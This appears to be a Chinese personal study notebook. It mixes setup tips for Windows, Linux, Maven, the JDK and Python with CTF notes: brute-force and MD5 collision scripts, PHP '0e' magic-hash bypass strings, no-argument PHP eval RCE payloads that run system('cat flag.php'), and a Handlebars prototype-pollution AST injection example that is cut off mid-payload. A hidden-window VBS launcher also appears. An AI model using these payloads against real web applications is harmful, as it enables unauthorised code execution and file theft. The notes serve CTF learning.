

[TOC]
# 实用小笔记
---
## 操作系统
---
### 使用`WScript.Shell`创建隐藏窗口
你可以使用`WScript.Shell`对象来执行一个命令，并将其窗口设置为隐藏。以下是一个代码示例：
```vbs
Dim objShell
Set objShell = CreateObject("WScript.Shell")
objShell.Run "your_script.bat", 0, False
Set objShell = Nothing
```
在这个例子中，`your_script.bat`是你想要运行的批处理文件。第二个参数`0`表示窗口的状态为隐藏。第三个参数`False`表示该脚本在运行时不会等待该命令完成。

---
### BAT脚本中路径包含中文字符如何处理
解决方案：切换终端字符编码集为 `UTF-8`
```bat
chcp 65001
```
恢复为默认的 `Windows ANSI` 编码
```bat
chcp 437
```
如果需要隐藏更改字符编码集时的输出，使用重定向的方式进行处理
```bat
chcp 65001 >nul 2>&1
```
- `>nul`将标准输出`(stdout)`重定向到`nul`，也就是丢弃正常输出。
- `2>&1`将标准错误输出`(stderr)`也重定向到标准输出`(stdout)`，确保所有输出都被丢弃。

>在 Windows 中，字符集（也称为代码页）定义了如何将字符映射到字节。在 Windows 操作系统中，不同的编码字符集被分配了不同的代码页编号。常见的编码字符集有很多，以下是一些常见的代码页及其对应的编码和用途。

#### 常见的 Windows 编码字符集（代码页）
##### 1. **ANSI 和 Windows 默认字符集**
- **437** - 美国英语 (默认代码页)
  - 这是 Windows 在英文环境下的默认字符集，包含基本的 ASCII 字符和一些扩展字符。

- **936** - 简体中文 (GBK)
  - GBK 是简体中文的扩展字符集，包含了简体中文字符和其他一些符号、汉字。

- **950** - 繁体中文 (Big5)
  - Big5 是台湾和香港常用的字符集，用于繁体中文的显示。

- **1252** - 西欧 (Windows-1252)
  - 常用于西欧语言（如英语、法语、德语等）的字符集，兼容 ASCII。

##### 2. **Unicode 编码**
- **65001** - UTF-8 编码
  - UTF-8 是一种支持所有语言的可变长度字符编码方式。它向后兼容 ASCII，广泛用于网络和文件传输。Windows 中使用 `chcp 65001` 来设置为 UTF-8 编码。

##### 3. **其他常见的代码页**
- **1200** - UTF-16 (Little Endian)
  - 用于 UTF-16 编码，最常见的 Unicode 编码形式之一。

- **1201** - UTF-16 (Big Endian)
  - UTF-16 编码的另一种字节顺序（Big Endian）。

- **1250** - 中欧语言 (Windows-1250)
  - 主要用于中欧语言，如波兰语、捷克语、匈牙利语等。

- **1251** - 俄语 (Windows-1251)
  - 用于俄语、乌克兰语和其他斯拉夫语言的字符集。

- **1253** - 希腊语 (Windows-1253)
  - 用于希腊语的字符集。

- **1254** - 土耳其语 (Windows-1254)
  - 用于土耳其语的字符集。

- **1255** - 希伯来语 (Windows-1255)
  - 用于希伯来语的字符集。

- **1256** - 阿拉伯语 (Windows-1256)
  - 用于阿拉伯语的字符集。

- **1257** - 波罗的海语言 (Windows-1257)
  - 主要用于波罗的海国家（拉脱维亚、立陶宛等）的语言字符集。

- **1258** - 越南语 (Windows-1258)
  - 用于越南语的字符集。

##### 4. **其他地区和特殊编码**
- **10000** - Macintosh 字符集 (Mac Roman)
  - Apple Macintosh 系统的默认字符集。

- **10001** - 日文 (Mac-Japanese)
  - Mac 系统上的日文字符集。

- **10008** - 繁体中文 (Mac Traditional Chinese)
  - Mac 系统上的繁体中文字符集。

- **51932** - 日文 (EUC-JP)
  - 日文的 EUC-JP 编码。

- **51949** - 韩文 (EUC-KR)
  - 韩文的 EUC-KR 编码。

- **20273** - 德国 (OEM 437-1)
  - 专为德国地区定制的 OEM 编码。

- **28591** - 拉丁1 (ISO-8859-1)
  - 常用于西欧语言的 ISO 标准字符集。

##### 5. **ISO 标准字符集**
- **28592** - 拉丁2 (ISO-8859-2)
  - 用于中欧语言的 ISO 字符集。

- **28593** - 拉丁3 (ISO-8859-3)
  - 用于南欧语言的 ISO 字符集。

- **28594** - 拉丁4 (ISO-8859-4)
  - 用于北欧和波罗的海语言的 ISO 字符集。

- **28595** - 斯拉夫语言 (ISO-8859-5)
  - 用于斯拉夫语言（如俄语、乌克兰语等）的 ISO 字符集。

- **28596** - 阿拉伯语 (ISO-8859-6)
  - 用于阿拉伯语的 ISO 字符集。

- **28597** - 希伯来语 (ISO-8859-8)
  - 用于希伯来语的 ISO 字符集。

- **28598** - 土耳其语 (ISO-8859-9)
  - 用于土耳其语的 ISO 字符集。

- **28605** - 现代希腊语 (ISO-8859-7)
  - 用于希腊语的 ISO 字符集。

##### 6. **其他**
- **65000** - UTF-7 编码
  - UTF-7 是一种不常用的 Unicode 编码，常用于电子邮件传输。

- **65002** - UTF-32 编码
  - UTF-32 是一种固定长度的 Unicode 编码方式，每个字符占用 4 个字节。

---
#### 如何查看当前系统的所有代码页
你可以通过以下命令查看当前系统上可用的代码页：
```bat
chcp
```
如果你想查看所有可用的代码页，可以使用以下命令列出：
```bat
chcp /?
```
#### 总结
Windows 系统支持多种字符编码，其中最常用的是 **ANSI** 编码系列、**Unicode（UTF-8、UTF-16）** 编码和 **ISO** 标准字符集。使用 `chcp` 命令，你可以在命令提示符或批处理脚本中切换不同的编码格式。

---
### Linux环境下maven的安装
- 进入官网选择合适的版本下载`maven`
[官网](https://dlcdn.apache.org/maven/)
- 解压下载后的文件
```bash
tar -zxvf apache-maven-3.5.4-bin.tar.gz
mv apache-maven-3.5.4 /opt/apache-maven-3.5.4
```
- 配置环境变量
```bash
vim /etc/profile
```
```
// /etc/profile
fi # 这里表示与 fi 相隔一行

export MAVEN_HOME=/opt/apache-maven-3.5.4
export PATH=$MAVEN_HOME/bin:$PATH
```
- 配置`maven mvn`，根据自己的包路径修改一下
`update-alternatives --install /usr/bin/mvn mvn /opt/apache-maven-3.5.4/bin/mvn 1`
- 刷新配置文件让文件生效
```bash
source /etc/profile
```
- 查看`maven`版本验证
`mvn -version`或者`mvn -v`

---
### Kali安装Java8和切换JDK版本的详细过程
#### 安装JDK1.8
1. 直接使用下面的地址下载`java 1.8`：
[Java 1.8](https://repo.huaweicloud.com/java/jdk/8u202-b08/jdk-8u202-linux-x64.tar.gz)
2. 建立目录，将下载的`jdk`的安装包复制过去并进行解压
```bash
sudo mkdir -p /usr/local/java
cp jdk-8u202-linux-x64.tar.gz /usr/local/java
cd /usr/local/java
sudo tar -zxvf jdk-8u202-linux-x64.tar.gz
```
3. 配置环境变量(注意下面的版本号要与自己下载的相同)
打开`/etc/profile`
```bash
sudo vim /etc/profile
```
添加下列代码到文件中
```
JAVA_HOME=/usr/local/java/jdk1.8.0_202
PATH=$PATH:$HOME/bin:$JAVA_HOME/bin
export JAVA_HOME
export PATH
```
4. 通知系统Java的位置
```bash
sudo update-alternatives --install "/usr/bin/java" "java" "/usr/local/java/jdk1.8.0_202/bin/java" 1
sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/local/java/jdk1.8.0_202/bin/javac" 1
sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/java/jdk1.8.0_202/bin/javaws" 1
sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/java/jdk1.8.0_202/bin/javaws" 1
```
5. 重新载入`profile`
```bash
source /etc/profile
```
#### 切换JDK版本
1. 查看当前JDK版本信息
```bash
java -version
```
2. 切换JDK版本
```bash
update-alternative --config java
```
输入需要的版本前面的编号即可。
3. 切换javac版本同理
```bash
update-alternative --config javac
```
输入需要的版本前面的编号即可。
[参考资料](https://www.yii666.com/blog/374492.html)

---
## Python
---
### `Python`中`int`转`bytes`的方法
在`Python`中，可以使用`int.to_bytes()`方法将整数转换为字节对象。这个方法允许你指定字节数和字节序`(endianness)`。以下是如何将整数转换为字节的基本用法。
#### 使用`int.to_bytes()`
`int.to_bytes(length, byteorder)`方法的参数：
- `length`：要生成的字节数。如果你希望将一个整数转换为一个特定字节数的字节对象，你需要知道该整数的范围。
- `byteorder`：字节序，可以是`big`或`little`，分别表示大端序和小端序。
#### 示例代码
```python
number = 193
num_bytes = number.to_bytes(1, byteorder='big')
print(f"Integer:{number}")
print(f"Bytes:{num_bytes}")
# 转换多个整数为字节
# 将 RGBA 值转换为字节
rgba_values = [193, 147, 232, 33]
bytes_array = bytes(rgba_values) # 使用 bytes() 转换列表为字节
print(f"RGBA as bytes:{bytes_array}")
```

---
### 将`Python`对象转换为`JSON`字符串
#### 格式化`JSON`的方法
1. 使用`json.dumps()`：将`Python`对象转换为格式化的`JSON`字符串。
2. 使用`indent`参数：指定缩进的空格数，使`JSON`数据更易读。
3. 设置`sort_keys`参数：如果设置为`True`，字典的键将按字母顺序排序。
```python
import json
# 示例 JSON 数据（Python 字典）
data = {
    "name": "Alice",
    "age": 30,
    "city": "New York",
    "is_student": False,
    "courses": ["Math", "Science"],
    "address": {
        "street": "123 Main St",
        "zipcode": "10001"
    }
}
# 将 Python 字典转换为格式化的 JSON 字符串
formatted_json = json.dumps(data, indent=4, sort_keys=True)
# 打印格式化后的 JSON 字符串
print(formatted_json)
```

---
### 从`JSON`字符串加载并格式化
如果你有一个`JSON`字符串，你可以使用`json.loads()`加载它，然后再使用`json.dumps()`格式化：
```python
json_string = '{"name": "Bob", "age": 25, "city": "Los Angeles"}'
# 从 JSON 字符串加载
data = json.loads(json_string)
# 格式化 JSON 数据
formatted_json = json.dumps(data, indent=4)
# 打印格式化后的 JSON 字符串
print(formatted_json)
```

---
### Triple DES_Decode - Python
```python
from Crypto.Cipher import DES3
from tqdm import trange
cpt = 'ABCD'
c = long_to_bytes(0x570fc2416dad7569c13356820ba67ba628c6a5fcbc73f1c8689612d23c3a779befeacf678f93ff5eb4b58dc09dcb9a89)

for i in range(2^18):
	k = ''
	n = i
	for _ in range(9):
		k += cpt[n%4]
		n //= 4
	des3 = DES3.new(mode = DES3.MODE_CBC, iv = b'12345678', key = b'D'+k.encode()+b'000000')
	if b'DASCTF' in des3.decrypt(c):
		des3 = DES3.new(mode = DES3.MODE_CBC, iv = b'12345678', key = b'D'+k.encode()+b'000000')
		print(des3.decrypt(c))
		break
```

---
### `Python`实现进度条
在`Python`中可以使用`tqdm`库来实现进度条，这个库不仅可以轻松地创建进度条，而且一般情况下它的性能也很高，不会对程序地效率产生显著的影响。
下面是一个简单的示例，模拟爆破(破解密码)过程，并使用`tqdm`显示进度条
```python
import time
import random
from tqdm import tqdm
def brute_force_password(target_password, charset, max_length):
	attempts = 0
	total_attempts = len(charset) ** max_length ## 计算总的尝试次数
	# 使用 tqdm 创建进度条
	with tqdm(total=total_attempts, desc="Brute forcing", unit="attempt") as pbar:
		for length in range(1, max_length + 1):
			for attempt in generate_attempts(charset, length):
				attemps += 1
				# 模拟密码检查
				if attempt == target_password:
					print(f"Password found: {attempt} in {attempts} attempts")
					return attempts
				pbar.update(1) # 更新进度条
				time.sleep(0.01) # 添加延迟以模拟工作负荷
	print("Password not found.")
	return None

def generate_attempts(charset, length):
	""" 生成所有可能的尝试（简单示例，未实现完整的组合生成） """
	from itertools import product
	for attempt in product(charset, repeat=length):
		yield ''.join(attempt)
# 示例设置
target_password = "abc"
charset = "abc"
max_length = 3
brute_force_password(target_password, charset, max_length)
```
#### 主要参数
1. iterable:
    类型: 可迭代对象（如列表、元组、范围等）。
    描述: 待迭代的对象，tqdm 将根据这个对象的长度生成进度条。
2. desc:
    类型: 字符串。
    描述: 进度条的前缀描述，显示在进度条的左侧，便于了解当前进度的上下文。
3. total:
    类型: 整数。
    描述: 指定进度条的总数，通常用于不可迭代的情况下（例如，你可能在使用生成器时想要设定一个总数）。
4. leave:
    类型: 布尔值（True 或 False）。
    描述: 是否在循环结束后保留进度条。默认值是 False，如果设置为 True，进度条将在完成后显示在终端中。
5. ncols:
    类型: 整数或 None。
    描述: 指定进度条的宽度，以字符为单位。如果设置为 None，则会自动调整以适应终端宽度。
6. mininterval:
    类型: 浮点数。
    描述: 进度条更新的最小时间间隔（单位：秒）。如果更新频率过高，则可能会减少更新频率，以避免过多的计算开销。
7. maxinterval:
    类型: 浮点数。
    描述: 进度条更新的最大时间间隔（单位：秒）。如果进度条更新过慢，则会增加更新频率。
8. ascii:
    类型: 布尔值或字符串。
    描述: 如果设置为 True，则使用 ASCII 字符来绘制进度条；如果设置为 False，则使用 Unicode 字符。
9. unit:
    类型: 字符串。
    描述: 用于表示每个迭代单位的标签，默认为 iter，可以根据需要更改，例如 file、item 等。
10. unit_scale:
    类型: 布尔值。
    描述: 如果设置为 True，则会自动缩放显示的数量。例如，如果总数是 1000，将显示为 1.0k。
11. bar_format:
    类型: 字符串。
    描述: 自定义进度条的格式，允许用户控制进度条的显示方式。
12. color:
    类型: 字符串。
    描述: 设置进度条的颜色，通常用于终端支持的颜色名称。
#### 更新后的第七届省赛CTF决赛签到爆破脚本
```python
#!/usr/bin/env python
from Crypto.Cipher import DES3
from tqdm import tqdm
from Crypto.Util.number import long_to_bytes
cpt = 'ABCD'
c = long_to_bytes(0x570fc2416dad7569c13356820ba67ba628c6a5fcbc73f1c8689612d23c3a779befeacf678f93ff5eb4b58dc09dcb9a89)
# print(f"c: {c}")
with tqdm(total=2**18, desc="Process") as pbar:
    for i in range(2**18):
        # print(f"i: {i}")
        k = ''
        n = i
        for _ in range(9):
            k += cpt[n%4]
            n //= 4
        # print(f"k: {k}, i")
        des3 = DES3.new(mode = DES3.MODE_CBC, iv = b'12345678', key = b'D'+k.encode()+b'000000')
        if b'DASCTF' in des3.decrypt(c):
            # print(f"Get! ==> {des3.decrypt(c)}")
            des3 = DES3.new(mode = DES3.MODE_CBC, iv = b'12345678', key = b'D'+k.encode()+b'000000')
            print(f"Get! ==> {des3.decrypt(c)}")
            # print(f"Get! ==> {des3.decrypt(c)}")
            break
        pbar.update(1)
```

---
### `Python`中没有总工作量的进度条
>当我们的爆破工作没有特定的工作量，完全随机的情况下，我们可以通过展示当前正在处理的结果来代替进度条。如果我们想在终端中只显示一行，并且每次刷新时展示当前爆破的进度过程，可以使用`ANSI`转义序列来覆盖这一行的内容。具体来说，可以使用`\\r`来返回首行，覆盖当前行的内容。

#### 代码示例：
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import multiprocessing
import hashlib
import random
import string
import sys
# from tqdm import tqdm

CHARS = string.ascii_letters + string.digits
def cmp_md5(substr, stop_event, str_len, start=0, size=20):
    global CHARS
    while not stop_event.is_set():
        rnds = ''.join(random.choice(CHARS) for _ in range(size)).encode('utf-8') # TypeError: Strings must be encoded before hashing (添加.encode('utf-8'))
        md5 = hashlib.md5(rnds)
        value = md5.hexdigest()
        # print(f"value:{value}") # 测试代码
        if value[start: start+str_len] == substr:
            # print(rnds)
            # stop_event.set() # 单 MD5碰撞
            #碰撞 双MD5等于单MD5
            md5 = hashlib.md5(value.encode('utf-8')) # TypeError: Strings must be encoded before hashing (添加.encode('utf-8'))
            if md5.hexdigest()[start: start+str_len] == substr:
                print(f"\rFound! ==> {rnds.decode('utf-8')} => {value} => {md5.hexdigest()}\n")
                stop_event.set()
        if random.random() < 0.01: # 这种不知道总爆破次数的爆破，可以使用显示当前爆破情况来代替进度条，具体的实现方式通过"\r"让光标返回到当前行的开头，从而覆盖之前的内容即可。
            print(f"\rCurrent: {rnds.decode('utf-8')}", end='')

if __name__ == '__main__':
    substr = sys.argv[1].strip()
    # print(f"substr:{substr}") # 测试代码
    start_pos = int(sys.argv[2]) if len(sys.argv) > 1 else 0
    # print(f"start_pos:{start_pos}") # 测试代码
    str_len = len(substr)
    cpus = multiprocessing.cpu_count()
    # print(f"cpus:{cpus}") # 测试代码
    stop_event = multiprocessing.Event()
    # print(f"stop_event:{stop_event}")
    processes = [multiprocessing.Process(target=cmp_md5, args=(substr, stop_event, str_len, start_pos)) for i in range(cpus)]
    for p in processes:
        p.start()
    for p in processes:
        p.join()
```

---
### `Python`中的多进程
在`Python`中使用`multiprocessing`模块进行多进程编程，提供了创建和管理多个进程的能力。它能够让你利用多核处理器的优势，提高程序的并行处理能力。相比于传统的线程模型，`multiprocessing`使用的是进程而非线程，因此能够有效的避免全局解释器锁(GIL)的问题，从而达到真正的并行。
#### 主要功能
##### 1. 创建进程：
`multiprocessing`提供了`Process`类，允许你创建新的进程。每个进程都有自己的内存空间，彼此之间不会干扰。
###### **示例代码：**
```python
from multiprocessing import Process

def worker():
	p = Process(target=worker)
	p.start()
	p.join() # 等待进程结束
```
##### 2. 进程间通信：
`multiprocessing`提供了多种方式来在进程之间通信，包括`Queue`(队列)、`Pipe`(管道)和共享内存等。
###### **示例代码：**
```python
from multiprocessing import Process, Queue
def worker(queue):
	queue.put("Hello from the worker!")

if __name__ == "__main__":
	queue = Queue()
	p = Process(target=worker, args=(queue,))
	p.start()
	print(queue.get()) # 获取进程发送的数据
	p.join()
```
##### 3. 共享数据
可以使用`Value`和`Array`来创建共享的数据对象，这样多个进程可以共享数据。
###### **示例代码：**
```python
from multiprocessing import Process, Value

def worker(shared_value):
	shared_value.value += 1

if __name__ == "__main__":
	counter = Value('i', 0) # 创建共享整型变量
	processes = [Process(target=worker, args=(counter,)) for _ in range(10)]
	for p in processes:
		p.start()
	for p in processes:
		p.join()
	print(counter.value)
```
##### 4. 进程池
`Pool`类允许你创建一个进程池，用于管理多个进程。它提供了一个简单的`API`来并行处理任务。
###### **示例代码：**
```python
from multiprocessing import Pool
def square(x):
	return x * x

if __name__ == "__main__":
	with Pool(processes=4) as pool: # 创建一个包含 4 个进程的进程池
		results = pool.map(square, range(10))
	print(results) # 输出每个数字的平方
```
##### 5. 同步机制
`multiprocessing`提供了多种同步机制，如`Lock`、`Event`、`Semaphore`和`Condition`，以帮助管理进程之间的同步。
###### **示例代码：**
```python
from multiprocessing import Process, Lock
def worker(lock):
    with lock:
        print("Lock acquired by worker")
if __name__ == "__main__":
    lock = Lock()
    processes = [Process(target=worker, args=(lock,)) for _ in range(5)]
    for p in processes:
        p.start()
    for p in processes:
        p.join()
```
#### `multiprocessing`中的`Event`类
`multiprocessing.Event` 是 `Python` 的 `multiprocessing` 模块中的一个类，用于在多个进程之间进行简单的信号传递和同步。`Event` 对象可以用于多个进程之间的通信，以指示某些条件已经发生或标志某种状态。它为进程之间提供了一种协调机制。
**主要功能：**
1. 设置状态：`set()`方法用于将事件的状态设置为"已设置"，这通常表示某个条件已经满足。
2. 清除状态：`clear()`方法用于将事件的状态设置为"未设置"，这表示条件不再满足。
3. 检查状态：`is_set()`方法用于检查事件的当前状态，返回`True`表示事件已设置，返回`False`表示事件未设置。
4. 等待事件：`wait(timeout=None)`方法用于阻塞当前进程，直到事件被设置。如果在指定的超时(可选)时间内事件未被设置，`wait()`会返回`False`；如果事件被设置，则返回`True`。
##### 代码示例：
```python
from multiprocessing import Process, Event
import time
def worker(event):
    print("Worker: 等待事件...")
    event.wait()  # 等待事件被设置
    print("Worker: 事件已设置，开始工作！")

if __name__ == "__main__":
    event = Event()  # 创建一个事件对象
    p = Process(target=worker, args=(event,))
    p.start()  # 启动进程
    time.sleep(3)  # 主进程等待3秒
    print("主进程: 设置事件！")
    event.set()  # 设置事件，通知工作进程可以继续
    p.join()  # 等待工作进程结束
    print("主进程: 工作进程已结束。")
```

---
### `Python`中的`string`模块
#### `ascii_letters` -- `Python3`
- 定义：`string.ascii_letters`是一个字符串，包含所有`ASCII`字母(大写和小写)。
- 内容：这个常量的内容如下
```
'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
```
- 用途：
`ascii_letters`常用于需要处理字母字符的情况，比如生成随机字符串、验证用户名、密码等。

#### `string.digits`
- 定义：`string.digits`是一个字符串，包含所有`ASCII`数字字符。
- 内容：这个常量的内容为：
```
'0123456789'
```
- 用途：
`digits`常用于需要处理数字字符的情况，比如生成随机数字、验证输入的数字等。
##### 示例代码：
```python
import string
import random
# 生成一个包含字母和数字的随机字符串
def generate_random_string(length):
	characters = string.ascii_letters + string.digits # 包含字母和数字
	return ''.join(random.choice(characters) for _ in range(length))
# 生成一个长度为 10 的随机字符串
random_string = generate_random_string(10)
print(random_string)
```

---
### `Python`中的`random`模块
在`Python`的`random`模块中，`choice`方法用于从一个非空序列(如列表、元组或字符串)中随机选择一个元素。它提供了一种便捷的方式来获取随机数据。
#### 代码示例：
```python
import random
fruits = ['apple', 'banana', 'cherry', 'date']
letters = 'abcdefg'
numbers = (1, 2, 3, 4, 5)
random_fruit = random.choice(fruits)
random_letter = random.choice(letters)
random_number = random.choice(numbers)
print(random_fruit)  # 输出一个随机选择的水果
print(random_letter)  # 输出一个随机选择的字母
print(random_number)  # 输出一个随机选择的数字
```

---
### `Python`中的`Crypto.Cipher`模块
[文档地址](https://pycryptodome.readthedocs.io/en/latest/src/cipher/cipher.html)

---
## Lua
[教程地址](https://www.runoob.com/lua/lua-tutorial.html)

---
## MD5
---
### 单MD5绕过
`CTF`中`md5`判等可使用`0e`绕过，但是如果是双md5该如何绕过呢？本文将教你如何绕过`md5(md5($_GET['a'])) == md5($_GET['b'])`。
**例子**

```php
<?php 

if (isset($_GET['a']) && isset($_GET['b'])) {
	$a = $_GET['a'];
	$b = $_GET['b'];
	if ($a != $b && md5($a) == md5($b)) {
		echo "flag{XXXXX}";
	} else {
		echo "wrong!";
	}

} else {
	echo 'wrong!';
}
?>
```
上面只要传入参数`a=s1885207154a`，`b=s1836677006a`，即可，为什么呢？看一下这两个字符串的md5值可以返现分别如下：
```
MD5值：
md5("s1885207154a") => 0e509367213418206700842008763514
md5("s1836677006a") => 0e481036490867661113260034900752
```
二者都是`0e`开头，在`php`中`0e`会被当做科学计数法，就算后面有字母，其结果也是`0`，所以上面的if判断结果使`true`，成功绕过！
### 双MD5碰撞绕过
**例子**
```php
<?php 

if (isset($_GET['a']) && isset($_GET['b'])) {
	$a = $_GET['a'];
	$b = $_GET['b'];
	if ($a != $b && md5($a) == md5(md5($b)) {
		echo "flag{XXXXX}";
	} else {
		echo "wrong!";
	}

} else {
	echo 'wrong!';
}
?>
```
双面的判断出现了`md5(md5($b)`，有了前面的铺垫，这里我们第一感觉就是找到一个字符串其`MD5`值的`MD5`仍然是`0e`开头的那就好了。开始的时候我不敢相信，那几率得多小啊，但是在昨天做一道`md5`截断碰撞的时候我就来了灵感，何不尝试一下，结果发现原来这种字符串使真的存在，并且碰撞`0e`开头的时候不到一秒钟就能碰撞到。各位观众，下面请看：
```
MD5值：
md5("V5VDSHva7fjyJoJ33IQl") => 0e18bb6e1d5c2e19b63898aeed6b37ea
md5("0e18bb6e1************") => 0e0a710a092113dd5ec9dd47d4d7b86f
```
原来真的存在`0e`开头的`MD5`值其`md5`结果也是`0e`开头，所以此题答案便出来了。`a=s1885207154a`，`b=V5VDSHva7fjyJoJ33IQl`即可绕过`if`判断。
其实上面的这种双`md5`值`0e`开头的字符串有很多，但是网上似乎很见到，几乎没有，下面发布一些。
**0x03 双MD5结果仍为0e开头字符串大全**

```
MD5大全：
CbDLytmyGm2xQyaLNhWn
md5(CbDLytmyGm2xQyaLNhWn) => 0ec20b7c66cafbcc7d8e8481f0653d18
md5(md5(CbDLytmyGm2xQyaLNhWn)) => 0e3a5f2a80db371d4610b8f940d296af
770hQgrBOjrcqftrlaZk
md5(770hQgrBOjrcqftrlaZk) => 0e689b4f703bdc753be7e27b45cb3625
md5(md5(770hQgrBOjrcqftrlaZk)) => 0e2756da68ef740fd8f5a5c26cc45064
7r4lGXCH2Ksu2JNT3BYM
md5(7r4lGXCH2Ksu2JNT3BYM) => 0e269ab12da27d79a6626d91f34ae849
md5(md5(7r4lGXCH2Ksu2JNT3BYM)) => 0e48d320b2a97ab295f5c4694759889f
```
### MD5碰撞脚本
```python
# -*- coding: utf-8 -*-
import multiprocessing
import hashlib
import random
import string
import sys
CHARS = string.letters + string.digits
def cmp_md5(substr, stop_event, str_len,. start=0, size=20):
    global CHARS
    while not stop_event.is_set():
        rnds = ''.join(random.choice(CHARS) for _ in range(size))
        md5 = hashlib.md5(rnds)
        value = md5.hexdigest()
        if value[start: start+str_len] == substr:
            print rnds
            stop_event.set()
            '''
            #碰撞双md5
            md5 = hashlib.md5(value)
            if md5.hexdigest()[start: start+str_len] == substr:
            	print rnds+ "=>" + value+"=>"+ md5.hexdigest()  + "\n"
                stop_event.set()
            '''

if __name__ == '__main__':
    substr = sys.argv[1].strip()
    start_pos = int(sys.argv[2]) if len(sys.argv) > 1 else 0
    str_len = len(substr)
    cpus = multiprocessing.cpu_count()
    stop_event = multiprocessing.Event()
    processes = [multiprocessing.Process(target=cmp_md5, args=(substr,
                                         stop_event, str_len, start_pos))
                 for i in range(cpus)]
    for p in processes:
        p.start()
    for p in processes:
        p.join()
```
上面脚本注释部分是双`MD5`碰撞，取消注释然后注释掉`16`行即可。
使用方法：`python md5Crack.py "你要碰撞的字符串"字符串的起始位置`
例如：`python md5Crack.py "0e" 0`
将产生`MD5`值为`0e`开头的字符串。

---
### MD5碰撞总结

---
## RCE
### 命令执行一
#### 涉及函数
##### 常见函数
```
isset()函数：用于检测变量是否已设置并且非 NULL。
highlight_file()函数：对文件进行 PHP 语法高亮显示。语法通过使用 HTML 标签进行高亮。
show_source()是 highlight_file() 的别名。
var_dump:该函数用于打印显示，一个变量的内容与结构，以及类型的信息。该函数有一个参数第一个参数（必填）第二个参数（选填参数,N）可以多个参数。
var_export:此函数返回关于传递给该函数的变量的结构信息，它和var_dump() 类似，不同的是其返回的表示是合法的 PHP 代码
eval()函数:用来执行一个字符串表达式，并返回表达式的值。
next() 将内部指针指向数组中的下一个元素
glob() 函数返回匹配指定模式的文件名或目录
array_reverse()：将数组逆序排列
array_rand(): 随机返回数组的键名
array_flip()：交换数组的键和值
session_start(): 告诉PHP使用session;
session_id(): 获取到当前的session_id值；
rev():将文件中的每行内容以字符为单位反序输出，即第一个字符最后输出，最后一个字符最先输出，依次类推。
localeconv() 函数返回一包含本地数字及货币格式信息的数组。
current() 函数返回数组中的当前元素（单元）,默认取第一个值，和pos()一样
get_defined_vars
gettext拓展的使用：
_()是一个函数 ()==gettext() 是gettext()的拓展函数，开启text扩展。需要php扩展目录下有php_gettext.dll 

?c=print_r(scandir(current(localeconv())));打印出当前目录下文件
show_source(next(array_reverse(scandir(pos(localeconv())))));
pos()是PHP中的内置函数,用于返回内部指针当前指向的数组中元素的值。返回值后,pos()函数不会递增或递减内部指针。

使用print_r()函数，将已经定义好的变量组成的数组进行打印输出。payload:
?c=print_r(get_defined_vars())
见ctfshow-web40*
```
##### 操作系统命令(输出函数)
```
cat函数 由第一行开始显示内容，并将所有内容输出
tac函数 从最后一行倒序显示内容，并将所有内容输出
nl      类似于cat -n，显示时输出行号
more    根据窗口大小，一页一页的现实文件内容
less    和more类似，但其优点可以往前翻页，而且进行可以搜索字符
head    只显示头几行
tail    只显示最后几行
xxd		二进制显示
rev		逆序
```
##### 命令执行函数
```
system() 输出并返回最后一行shell结果。
exec() 不输出结果，返回最后一行shell结果，所有结果可以保存到一个返回的数组里面。
passthru() 只调用命令，把命令的运行结果原样地直接输出到标准输出设备上。（替换system）
```
##### 获取文件内容函数
```
pos()是current()的别名
pos():返回数组中当前元素的值
scandir()：函数返回一个数组，其中包含指定路径中的文件和目录(获取目录下的文件)
localeconv()：返回一包含本地数字及货币格式信息的数组。其中数组中的第一个为点号(.)
```

---
### 无参数RCE
> 2024年浙江省赛出现了，当时做的很慢，很久没碰了

在杨杰的笔记中找到了相关的操作：
```php
?c = print_r(scandir(current(localeconv())));show_source(next(array_reverse(scandir(pos(localeconv())))))
# 查找定义的变量传参执行：
?c = print_r(get_defined_vars())
?c = print_r(next(get_defined_vars()))
?c = eval(array_pop(next(get_defined_vars())));daigua=system('cat flag.php');
```

---
## 原型链污染
### AST注入 - 从原型链污染到RCE
#### 概念 - 什么是 AST 注入
在`NodeJS`中，`AST`经常被在`JS`中使用，作为`template engines(引擎模板)`和`typescript`等。对于引擎模板，结构如下图所示：

如果在`JS`应用中存在原型链污染漏洞，任何 `AST` 都可以通过在 `Parser(解析器)` 或 `Compiler(编译器)`过程中插入到函数中。

在这里，你可以在没有过滤、没有经过 `lexer(分析器)`或`parser(解析器)`验证的输入(没有被适当的过滤)的情况下插入 `AST`。
然后我们可以向 `Parser(编译器)`非预期的输入。
下面就是展示实际中在 `handlebars` 和 `pug` 使用 `AST` 注入执行任意命令

#### 漏洞
##### Handlebars
本地测试，代码如下
```javascript
const Handlebars = require('handlebars');

const source = `Hello {{ msg }}`;
const template = Handlebars.compile(source);

console.log(template({"msg": "posix"}));
```
这是如何在 `handlebars` 使用模板的方法，运行结果为下图

`Handlebar.compile` 函数将字符串转换为模板函数，并传递对象因子以供调用
```javascript
const Handlebars = require('handlebars');

Object.prototype.pendingContent = `<script>alert(origin)</script>`

const source = `Hello {{ msg }}`;
const template = Handlebars.compile(source);

console.log(template({"msg": "posix"}));
```
在这里，我们可以使用原型链污染来影响编译过程。
你可以插入任意字符串 `payload` 到 `Object.prototype.pendingContent` 中决定你想要的攻击。

构造 `payload`
```json
{
    "type": "MustacheStatement",
    "path": 0,
    "params": [{
